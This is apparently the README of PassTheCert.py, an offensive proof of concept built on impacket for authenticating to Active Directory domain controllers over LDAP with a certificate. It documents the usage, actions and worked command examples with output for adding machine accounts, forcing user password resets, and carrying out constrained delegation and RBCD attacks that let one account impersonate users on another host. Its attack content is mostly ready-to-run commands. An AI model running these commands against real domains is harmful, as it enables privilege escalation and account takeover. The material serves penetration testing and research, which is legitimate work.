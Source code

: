 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}] [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,forcePWDchange,whoami}]] [-account-name sAMAccountName] [-new-pass password] [-baseDN DC=test,DC=local] [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME] [-computer-name COMPUTER-NAME$] [-computer-pass password]
                      [-delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local] [-delegate-to DELEGATE_TO] [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,forcePWDchange,whoami}]

Password Reset:
  -account-name sAMAccountName
                        sAMAccountName of user to target.
  -new-pass password    New password of target.

Manage Computer:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP.If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers
                        Group to which the account will be added.If omitted, CN=Computers will be used,
  -domain test.local    Target domain fqdn
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name COMPUTER-NAME$
                        Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local
                        Services to configure in constrained delegation to configure to the new computer (no space in the list)

RBCD attack:
  -delegate-to DELEGATE_TO
                        Target computer account the attacker has at least WriteProperty to
  -delegate-from DELEGATE_FROM
                        Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key
```

Actions
-------
* Manage Computer
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* Manage User
  * `forcePWDchange` : Modify the password of the user

* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

* Misc
  * `whoami`: Return the user represented by the certificate

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)
